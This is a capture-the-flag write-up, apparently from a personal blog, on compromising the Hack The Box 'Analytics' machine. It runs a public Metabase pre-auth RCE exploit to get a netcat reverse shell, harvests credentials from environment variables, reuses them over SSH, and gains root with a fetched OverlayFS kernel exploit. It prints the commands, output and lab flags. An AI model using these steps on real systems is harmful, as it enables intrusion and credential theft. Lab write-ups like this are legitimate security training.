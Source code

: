```yaml
---
layout: post
title: Analytics HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux,cve,rce,kernel exploit]
image:
  path: /images/htb/easy/analytics/icon.png
---
```


Another machine today! Not too hard I think I'm going to step up the difficulty!

**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.

![Home Page](/images/htb/easy/analytics/home.png)

After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.htb,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.

![Metabase Login](/images/htb/easy/analytics/metabase.png)

Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with `nc`.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag! <mark>43b96c62ca27b47911880bebe17962df</mark>

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! <mark>9db68c8ac70474f468afe8ca2ac44373</mark>

Success!

![Success](/images/htb/easy/analytics/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.